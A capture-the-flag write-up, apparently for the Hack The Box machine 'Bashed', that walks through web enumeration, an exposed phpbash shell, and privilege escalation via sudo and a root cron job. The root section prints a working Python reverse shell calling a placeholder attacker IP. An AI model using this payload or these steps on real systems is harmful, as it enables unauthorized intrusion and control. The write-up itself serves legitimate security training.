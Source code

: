 Bashed
================

![header](header.png)

Solution
==============

User
---------
First, like always, we do a nmap scan and discovered port 80 is open.
Navigating to the website, we got a simple webpage showing something about phpbash

![webpage](webpage.png)

Phpbash is particularly interesting because it looks like we're given a free shell via that application.
Now we do a directory enumeration using dirbuster.

![dirbuster](dirbuster.png)

We got a directory `/dev/phpbash.php` ! Navigating to that directory, we got the phpbash application running right there.

![phpbash](phpbash.png)

Looks like we can already read the user flag...

![user](user.png)

Root
------------
Let's see if we can escalate our privilege using `sudo su`

![sudo](sudo.png)

No we can't, but we can sudo as scriptmanager as seen in the screenshot.

Grab a python reverse shell from https://highon.coffee/blog/reverse-shell-cheat-sheet/ and we can spawn a reverse shell.

```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("ATTACKING-IP",80))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
Now we can `sudo -u scriptmanager /bin/bash` to obtain bash shell, we've escalated from www-data to scriptmanager!

From here I did a lot of enumeration to find out what's going on, and finally ended up with something interesting:

![enumeration](enumeration.png)

We can see a cron job runnning, but we were unable to view the content of the cron job just yet.

However, there's another interesting directory sitting right at `/` and that's the `/scripts` directory

We can see the content of that directory:

![enum2](enum2.png)

From here we can see that `test.py` is opening up a new file `test.txt` and writing something to it.

What's interesting is that the `test.txt` file belongs to root! It looks like the script is being executed as root privilege!

Now we could use that script to gain a reverse shell

![rootshell](rootshell.png)

And there is our root flag!

Well just out of interest we could see the cron jobs being run is basically every script inside the scripts directory

![rootshell](rootshell.png)
